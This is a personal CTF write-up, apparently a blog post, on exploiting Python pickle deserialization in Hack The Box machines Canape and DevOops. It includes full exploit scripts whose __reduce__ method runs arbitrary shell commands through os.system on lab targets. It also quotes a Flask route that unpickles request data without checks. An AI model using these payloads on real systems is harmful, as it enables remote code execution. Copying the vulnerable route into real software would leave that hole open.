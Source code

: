 ```yaml
---
layout: post
title: Python Pickle Deserialization
description: Python Pickle Deserialization
summary: Python Pickle Deserialization
tags: [python,deserialization,foothold]
minute: 1
---
```

## Payload Format
Here is an example script I used in HTB Canape.

```python
#!/usr/bin/env python2

import requests
import pickle
import os
from hashlib import md5

class exploit(object):
  def __reduce__(self):
    return (os.system, ('echo homer && ping -c 1 10.10.14.34',))
    # THIS DOESNT WORK
    # return (os.popen, ('echo homer && ping -c 1 10.10.14.34',)) 

def dump_exploit():
  return pickle.dumps(exploit())

payload = dump_exploit()
c = payload[:-1]
q = payload[-1:]
url = 'http://10.10.10.70'

def submit():
  r = requests.post(url + '/submit', data = {'character': c, 'quote': q})

def check():
  r = requests.post(url + '/check', data = {'id': md5(c+q).hexdigest()})

submit()
check()
```

## Troubleshooting
When I did HTB Canape, my exploit didn't work when I tried to use the HTML form in firefox.

![](/spindel/assets/Python%20Pickle%20Deserialization/FF16D104-763D-42D2-BF3D-C8181797ADAA.png)

But when I tried 0xdf python [script](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#code), it worked without any issues. I looked deeply by inspecting the packet capture for both python script and browser and here is what I found out.

Left side (python script), right (firefox).

![](/spindel/assets/Python%20Pickle%20Deserialization/7A8A1D33-2216-448E-865C-B2D8D716722D.png)

Based from the capture, the python script is sending `0A` which corresponds to newline `\n` while the firefox capture is sending `5c` which corresponds to file separator `\`.

If I tried again the HTML form in Firefox this time doing actual newline instead of `\n`, the packet capture looks better but it added `0D` for carriage return. Right now, I don't have clue yet on how to remove it.

![](/spindel/assets/Python%20Pickle%20Deserialization/FFB1CBD7-E58C-4BFE-B7B7-25C0016D1223.png)

![](/spindel/assets/Python%20Pickle%20Deserialization/F3B4C80C-4063-4C05-8C08-FAD46B34E93A.png)

* In HTB DevOops, my expoit was not working because I'm trying to incude `Subject` on the actual payload. Once I removed it, exploit worked.

```python
# This fails
payload = dump_exploit()
data_str = str({'Subject': payload})
data = base64.urlsafe_b64encode(data_str)

# This worked
payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
```

## Other Examples
* HTB DevOops

```python
# Vulnerable code
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']
```

```python
#!/usr/bin/env python2

# Usage: python2 pickle_exploit.py 'ping -c 1 10.10.14.34'

import requests
import pickle
import os
import sys
from hashlib import md5
import base64

cmd = sys.argv[1]

class exploit(object):
  def __reduce__(self):
    return (os.system, (cmd,)) 

def dump_exploit():
  return pickle.dumps(exploit())

proxies = {'http': 'http://127.0.0.1:8080'}

payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
url = 'http://10.10.10.91:5000'

def submit():
  print(payload)
  r = requests.post(url + '/newpost', data = data, proxies = proxies)
  if r.status_code == 500:
    print('Exploit failed')
  else:
    print('Exploit successful!')

submit()
```

## References
* HTB Canape
* [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
* [Exploiting Insecure Deserialization bugs found in the Wild (Python Pickles)](https://macrosec.tech/index.php/2021/06/29/exploiting-insecuredeserialization-bugs-found-in-the-wild-python-pickles/)
* [Pickle Arbitrary Code Execution](https://root4loot.com/post/exploiting_cpickle/)
